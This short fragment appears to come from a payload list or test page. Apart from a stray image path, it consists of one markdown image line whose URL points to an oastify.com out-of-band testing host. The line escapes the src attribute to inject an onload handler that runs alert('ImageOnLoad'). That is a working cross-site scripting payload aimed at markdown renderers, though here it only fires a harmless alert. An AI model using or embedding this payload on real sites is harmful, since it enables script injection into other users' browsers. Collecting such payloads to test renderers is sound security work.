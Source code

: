 ![Escape SRC - onload](https://0gh9k8p1ya84fwke9bqv02dr1i79vzjo.oastify.com"onload="alert('ImageOnLoad'))
